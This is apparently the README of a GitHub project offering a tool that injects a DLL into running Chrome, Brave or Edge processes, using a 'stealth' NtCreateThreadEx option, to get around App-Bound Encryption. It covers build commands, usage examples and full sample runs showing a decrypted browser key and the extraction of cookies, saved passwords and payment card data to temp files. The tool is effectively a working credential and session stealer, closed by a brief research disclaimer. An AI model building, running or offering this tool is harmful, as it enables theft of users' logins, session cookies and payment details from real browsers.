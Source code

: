 # Chrome App-Bound Encryption Decryption

> **Purpose**  
> Decrypt the **App‑Bound Encrypted (ABE)** keys stored in the *Local State* file of Chromium‑based browsers (**Chrome, Brave, Edge**) **without requiring administrative privileges**.

Starting with Chrome 127, Google introduced ABE: cookies (and, in future, passwords & payment data) are encrypted with a key that can only be decrypted by the browser’s own **IElevator** COM service *and* when the calling binary is inside the browser’s installation directory.

This project bypasses that path‑validation requirement by injecting a small DLL into the running browser process and calling IElevator from there, supporting multiple injection methods, verbose debugging, auto‑start, and optional process cleanup and cookie extraction.

![image](https://github.com/user-attachments/assets/05cfdb2d-fe2a-4b4f-ab2b-50a46d6486ee)


## 📦 Supported & Tested Versions

| Browser | Tested Version (x64 & ARM64) |
|---------|-----------------------------|
| **Google Chrome** | 136.0.7103.93 |
| **Brave** | 1.78.94 (136.0.7103.60) |
| **Microsoft Edge** | 136.0.3240.50  |

> [!NOTE]  
> The injector requires the target browser to be **running** unless you use `--start-browser`.

## 🔧 Build Instructions

1. **Clone** the repository and open a *Developer Command Prompt for VS* (or any MSVC‑enabled shell).  
2. **Compile the DLL** (responsible for the decryption logic):

    ```bash
    cl /EHsc /std:c++17 /LD /O2 /MT chrome_decrypt.cpp sqlite3.lib bcrypt.lib ole32.lib oleaut32.lib shell32.lib version.lib comsuppw.lib /link /OUT:chrome_decrypt.dll
    ```
3. **Compile the injector** (responsible for DLL injection & console UX):

    ```bash
    cl /EHsc /O2 /std:c++17 /MT chrome_inject.cpp version.lib ntdll.lib shell32.lib /link /OUT:chrome_inject.exe
    ```

Both artifacts (`chrome_inject.exe`, `chrome_decrypt.dll`) must reside in the same folder.

## 🚀 Usage

```bash
PS> .\chrome_inject.exe [options] <chrome|brave|edge>
```

### Options

Options

- `--method load|nt`
  Injection method:
  - load = CreateRemoteThread + LoadLibrary (default)
  - nt   = NtCreateThreadEx stealth injection

- `--start-browser`
  Auto-launch the browser if it’s not already running.

- `--verbose`
  Enable extensive debugging output.

### Examples

```bash
# Standard load-library injection:
PS> .\chrome_inject.exe chrome

# Use stealth NtCreateThreadEx method:
PS> .\chrome_inject.exe --method nt chrome

# Auto-start Brave and show debug logs:
PS> .\chrome_inject.exe --method load --start-browser --verbose brave
```

#### Normal Run

```bash
PS C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption> .\chrome_inject.exe chrome --start-browser --method nt
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  Multi-Method Process Injector               |
|  Cookies / Passwords / Payment Methods       |
|  v0.6 by @xaitax                             |
------------------------------------------------

[*] Chrome not running, launching...
[+] Chrome (v. 136.0.7103.93) launched w/ PID 16768
[+] DLL injected via NtCreateThreadEx stealth
[*] Starting Chrome App-Bound Encryption Decryption process.

[+] COM library initialized.
[+] IElevator instance created successfully.
[+] Proxy blanket set successfully.
[+] Local State path: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[+] Finished Base64 decoding (1224 bytes).
[+] Key header is valid.
[+] Encrypted key blob retrieved (1220 bytes).
[+] Encrypted key retrieved: 01000000d08c9ddf0115d1118c7a00c04fc297eb...
[+] BSTR allocated for encrypted key.
[+] Decryption successful.
[+] Decrypted Key: 97fd6072e90096a6f00dc4cb7d9d6d2a7368122614a99e1cc5aa980fbdba886b
[*] 229 Cookies extracted to C:\Users\ah\AppData\Local\Temp\Chrome_decrypt_cookies.txt
[*] 1 Passwords extracted to C:\Users\ah\AppData\Local\Temp\Chrome_decrypt_passwords.txt
[*] 1 payment methods extracted to C:\Users\ah\AppData\Local\Temp\Chrome_decrypt_payments.txt
[*] Chrome terminated
```


#### Verbose

```bash
PS C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption> .\chrome_inject.exe chrome --start-browser --method nt --verbose
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  Multi-Method Process Injector               |
|  Full Cookie Decryption                      |
|  v0.5 by @xaitax                             |
------------------------------------------------

[#] verbose=true
[#] CleanupPreviousRun: removing temp files
[#] Deleting C:\Users\ah\AppData\Local\Temp\chrome_decrypt.log
[#] Deleting C:\Users\ah\AppData\Local\Temp\chrome_appbound_key.txt
[#] Target display name=Chrome
[#] procName=chrome.exe, exePath=C:\Program Files\Google\Chrome\Application\chrome.exe
[#] GetProcessIdByName: snapshotting processes
[*] Chrome not running, launching...
[#] StartBrowserAndWait: exe=C:\Program Files\Google\Chrome\Application\chrome.exe
[#] Browser started PID=5152
[#] Retrieving version info
[#] GetFileVersionInfoSizeW returned size=2212
[+] Chrome (v. 136.0.7103.49) launched w/ PID 5152
[#] Opening process PID=5152
[#] HandleGuard: acquired handle 228
[#] GetDllPath: C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\chrome_decrypt.dll
[#] InjectWithNtCreateThreadEx: begin
[#] ntdll.dll base=140707482173440
[#] NtCreateThreadEx addr=140707482180800
[#] VirtualAllocEx size=87
[#] WriteProcessMemory complete
[#] Calling NtCreateThreadEx
[#] NtCreateThreadEx returned 0, thr=248
[#] InjectWithNtCreateThreadEx: done
[+] DLL injected via NtCreateThreadEx stealth
[*] Starting Chrome App-Bound Encryption Decryption process.
[#] Opening log file C:\Users\ah\AppData\Local\Temp\chrome_decrypt.log

[+] COM library initialized.
[+] IElevator instance created successfully.
[+] Proxy blanket set successfully.
[+] Local State path: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[+] Finished Base64 decoding (1224 bytes).
[+] Key header is valid.
[+] Encrypted key blob retrieved (1220 bytes).
[+] Encrypted key retrieved: 01000000d08c9ddf0115d1118c7a00c04fc297eb...
[+] BSTR allocated for encrypted key.
[+] Decryption successful.
[+] Decrypted Key: 97fd6072e90096a6f00dc4cb7d9d6d2a7368122614a99e1cc5aa980fbdba886b
[*] 114 Cookies extracted to C:\Users\ah\AppData\Local\Temp\Chrome_decrypt_cookies.txt
[#] Terminating browser PID=5152
[#] HandleGuard: acquired handle 252
[*] Chrome terminated
[#] HandleGuard: closing handle 252
[#] Exiting, success
[#] HandleGuard: closing handle 228
```

## 🍪 Cookie Extraction

Once decryption completes, all cookies are emitted in JSON format into your Temp folder:

- `%TEMP%\<Browser>_decrypt_cookies.txt`  

Each file is a JSON array of objects:

```json
[
  {
    "host": "accounts.google.com",
    "name": "ACCOUNT_CHOOSER",
    "value": "AFx_qI781-…"
  },
  {
    "host": "mail.google.com",
    "name": "OSID",
    "value": "g.a000uwj5ufIS…"
  },
  …
]
```

## 🆕 v0.6 Changelog

- **New**: Full Username & Password extraction
- **New**: Full Payment Information (e.g., Credit Card) extraction

## 🆕 v0.5 Changelog

- **New**: Full Cookie extraction into JSON format 

## 🆕 v0.4 Changelog

- **New**: selectable injection methods (`--method load|nt`)  
- **New**: auto‑start the browser if not running (`--start-browser`)  
- **New**: verbose debug output (`--verbose`)  
- **New**: automatically terminate the browser after decryption 
- **Improved**: Injector code refactoring 


Further Links:

- [Google Security Blog](https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html)
- [Chrome app-bound encryption Service](https://drive.google.com/file/d/1xMXmA0UJifXoTHjHWtVir2rb94OsxXAI/view)
- [snovvcrash](https://x.com/snovvcrash)
- [SilentDev33](https://github.com/SilentDev33/ChromeAppBound-key-injection)

## Disclaimer

> [!WARNING]  
> This tool is intended for cybersecurity research and educational purposes. Ensure compliance with all relevant legal and ethical guidelines when using this tool.

